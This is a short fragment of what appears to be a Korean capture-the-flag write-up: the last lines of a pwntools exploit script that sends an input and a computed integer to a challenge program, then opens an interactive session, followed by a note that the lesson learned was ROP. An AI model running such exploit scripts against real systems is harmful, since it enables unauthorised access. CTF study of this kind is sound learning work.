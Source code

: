 ```python
p.send("1\n")

print(p.recvuntil(" : "))
p.send(str(c_int(result)) + "\n")
p.interactive()
```

```tip
## 알게 된 점

ROP
```